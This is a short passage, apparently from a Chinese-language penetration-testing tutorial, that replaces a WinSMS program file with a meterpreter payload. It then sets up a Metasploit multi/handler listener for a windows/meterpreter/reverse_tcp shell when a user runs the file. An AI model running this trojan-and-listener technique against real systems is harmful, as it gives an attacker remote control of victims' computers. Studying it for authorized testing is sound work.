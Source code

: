 现在我们用新创建的 meterpreter 文件替换 WinSMS 文件：

![如何做到...](img/image_09_026.jpg)![如何做到...](img/image_09_027.jpg)

1.  现在我们已经放置了文件，让我们在 Metasploit 上打开一个监听器，等待看看当用户执行文件时会发生什么。在终端中输入以下命令设置 Metasploit 监听器：

```
      msfconsole
      use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set lhost 192.168.157.151
      set lport 443
      exploit

```

输出将如下截图所示：

![如何做到...](img/image_09_028.jpg)
